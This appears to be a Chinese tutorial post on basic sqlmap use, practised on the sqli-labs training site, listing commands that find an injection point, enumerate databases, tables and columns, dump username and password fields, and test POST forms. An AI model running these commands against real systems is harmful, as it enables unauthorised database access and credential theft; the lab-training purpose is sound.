





sqlmap的基本操作
这里我用sqli-labs来实验
0x01 输出等级
使用 -v <等级> 参数来设置输出等级，默认是1
- 0：只显示 Python 的 tracebacks 信息、错误信息 [ERROR] 和关键信息 [CRITICAL]；
- 1：同时显示普通信息 [INFO] 和警告信息 [WARNING]；
- 2：同时显示调试信息 [DEBUG]；
- 3：同时显示注入使用的攻击荷载；
- 4：同时显示 HTTP 请求；
- 5：同时显示 HTTP 响应头；
- 6：同时显示 HTTP 响应体。
0x02 判断注入点
使用参数 -u 或 --url 来判断是否存在注入点
1 | sqlmap -u http://www.example.com/Less-1/?id=1 |
找到注入点

0x03 列出所有数据库信息
使用 --dbs 参数列出所有数据库信息
1 | sqlmap -u http://www.example.com/Less-1/?id=1 --dbs |
结果

0x04 列出当前正在使用的数据库
使用 --current-db 参数
1 | sqlmap -u http://www.example.com/Less-1/?id=1 --current-db |
当前使用的数据库为security
0x05 列出数据表
使用 -D <数据库名> 参数指定数据库，然后用 --tables 参数列出数据库的所有表
1 | sqlmap -u http://www.example.com/Less-1/?id=1 -D security --tables |
结果

0x06 列出字段
使用 -D <数据库名> 参数指定数据库，然后用 -T <表名> 参数指定表，最后用 --columns 参数列出所有字段
1 | sqlmap -u http://www.example.com/Less-1/?id=1 -D security -T users --columns |
结果

0x07 读取数据
使用 -D <数据库名> 参数指定数据库，用 -T <表名> 参数指定表，然后用 -C <字段名> 参数指定字段（用逗号分隔多个字段），最后用 --dump 参数读取数据
1 | sqlmap -u http://www.example.com/Less-1/?id=1 -D security -T users -C id,password,username --dump |
结果

对于POST请求的注入
0x08 自动搜索参数
使用 --forms 参数自动搜索注入点
1 | sqlmap -u http://www.example.com/Less-1/?id=1 --forms |
0x09 指定参数搜索
使用 --data <参数>=<值>(&<参数>=<值>) 从指定参数搜索注入点
1 | sqlmap -u http://www.example.com/Less-1/?id=1 --data <参数>=<值>&<参数>=<值> |
0x0A 使用POST报文搜索
先用BurpSuite把报文抓下来，保存为txt文件。用 -r <文件路径> 参数选择txt文件，用 -p <参数名> 参数指定参数名
然后就跟上面的操作一样了
1 | sqlmap -r post.txt -p uname --dbs |